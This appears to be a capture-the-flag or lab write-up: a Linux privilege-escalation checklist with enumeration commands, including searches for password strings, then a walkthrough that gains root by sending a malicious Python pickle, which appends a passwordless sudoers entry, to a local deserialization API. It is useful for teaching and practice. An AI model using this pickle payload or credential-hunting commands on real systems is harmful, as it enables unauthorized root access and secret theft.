 # 9c550d

## LINUX PRIVILEGE ESCALATION CHECKLIST
### SYSTEM INFORMATION
- Get OS information:
- Check the path
- Check the env variables, any sensitive detail
- Search for kernel exploits such as DirtyCow
- Check if the sudo version is vulnerable
- Dmesg signature verification failed
- Check if yu have writing access to some cron job files.
- Check which services are running.


https://github.com/gurkylee/Linux-Privilege-Escalation-Basics

```bash
uname -a 
hostname 
lscpu 
ls /home 
ls /var/www/html 
ls /var/www/
ps aux | grep root 
netstat -tulpn 
ps -aux | grep root | grep mysql
ifconfig 
find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \;
locate pass | more
```

## MAKING RICHARD_GILL ROOT IN 10.0.3.229
- **Basic system enumeration:** if we do `ps aux` we can see that there is a python server that exposes and endpoint:


```bash
curl http://127.0.0.1:8000/
{
    "404": "The API call you tried to make was not defined. Here's a definition of the API to help you get going :)",
    "documentation": {
        "overview": "Python server that deserializes python pickles.",
        "handlers": {
            "/deserialize": {
                "GET": {
                    "usage": "\n    Deserialize a base64 encoded python pickle.\n\n    The system auto-restarted every 15 minutes.\n    ",
                    "outputs": {
                        "format": "JSON (Javascript Serialized Object Notation)",
                        "content_type": "application/json; charset=utf-8",
                        "type": "dict() -> new empty dictionary\ndict(mapping) -> new dictionary initialized from a mapping object's\n    (key, value) pairs\ndict(iterable) -> new dictionary initialized as if via:\n    d = {}\n    for k, v in iterable:\n        d[k] = v\ndict(**kwargs) -> new dictionary initialized with the name=value pairs\n    in the keyword argument list.  For example:  dict(one=1, two=2)"
                    },
                    "inputs": {
                        "data": {
                            "type": "Basic text / string value"
                        }
                    }
                }
            }
        }
    }
}
```
- If we send a pickle to this api, we will be able to execute a command with root accesses, the pickle file what does is to serialize in a pickle entity a command.
```python
import pickle
import base64
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('echo "richard_gill ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers',))

# Create the malicious pickle
payload = pickle.dumps(Exploit())

# Base64 encode the pickle
encoded_payload = base64.b64encode(payload).decode()

# Print the encoded payload
print(encoded_payload)

```
- If the output of this file, where note that what we are doing is to put into the sudoers file the richard_gill user without the password need.

```bash
curl -G --data-urlencode "data=gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDtlY2hvICJyaWNoYXJkX2dpbGwgQUxMPShBTEwpIE5PUEFTU1dEOiBBTEwiID4+IC9ldGMvc3Vkb2Vyc5SFlFKULg==" http://127.0.0.1:8000/deserialize
```

Now at this point you get root access and if you go to the root you will find the flag:

	flag{9c550d9623e1ebdf2a878b07ac437bff4508663a2e2f69}.jpg

